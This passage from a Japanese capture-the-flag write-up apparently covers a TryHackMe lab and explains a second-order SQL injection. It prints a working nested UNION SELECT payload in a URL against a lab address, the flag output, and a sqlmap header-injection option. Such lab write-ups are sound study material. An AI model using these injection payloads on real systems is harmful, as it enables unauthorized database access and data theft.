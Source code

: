 イメージ的には、2 個目の SQL で下記のような形を作りたい。

```
select name from posts where id = 1 union select flag from flag
```

posts から 4 項目 Select しているのを確かめ、最終的には、

http://10.10.76.124/user?id=10%20union%20select%20%221%20union%20select%201,flag,3,4%20from%20flag%22,2,3%20from%20users--%20-

でフラグ４が返ってきた。

```
User ID:  1 union select 1,flag,3,4 from flag
Username:  2
Posts:
    First Post
    Second Post
    THM{FLAG4:BD.................................}
```

## 振り返り

- フラグと DB 番号が対応付けられているはずだと思い込んだため、難しくなった。
- sqlmap が自動的にダンプしてくれるのはその SQL を直接実行する DB だけであり、そのクエリ結果を使って他の DB をクエリするような場合は見逃してしまうという大きな教訓。
- `--headers="X-forwarded-for:1*"` のような sqlmap の使い方も初めて知ったので勉強になった。
